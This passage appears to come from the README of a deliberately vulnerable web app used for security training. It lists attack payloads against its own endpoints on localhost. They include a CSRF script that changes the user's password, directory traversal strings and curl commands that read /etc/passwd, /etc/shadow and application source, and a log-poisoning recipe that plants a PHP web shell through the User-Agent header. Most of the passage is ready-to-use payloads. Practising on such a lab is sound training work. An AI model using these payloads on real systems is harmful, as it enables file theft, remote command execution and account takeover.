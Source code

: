 ### Advanced CSRF
```html
<!-- JSON CSRF -->
<script>
fetch('http://localhost:5000/change_password', {
    method: 'POST',
    credentials: 'include',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'new_password=csrf_attack&confirm_password=csrf_attack'
});
</script>
```

---

## 🔓 5. Directory Traversal / Local File Inclusion

**Endpoints**: `/view_file`, `/download/<filename>`  
**Parameters**: `file`, `filename`

### Test Payloads
```
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
/etc/passwd
../../../etc/shadow
../../../proc/version
../../../proc/cpuinfo
../app.py
../../app.py
/var/log/apache2/access.log
/etc/apache2/apache2.conf
```

### Automated Testing
```bash
python exploits/directory_traversal_exploit.py

# Manual with curl
curl "http://localhost:5000/view_file?file=../../../etc/passwd"
curl "http://localhost:5000/download/../../../etc/passwd"
```

### Log Poisoning Attack
If log files are accessible:
1. Poison logs via User-Agent: `<?php system($_GET['cmd']); ?>`
2. Include log file: `/var/log/apache2/access.log`
3. Execute commands: `&cmd=whoami`

---
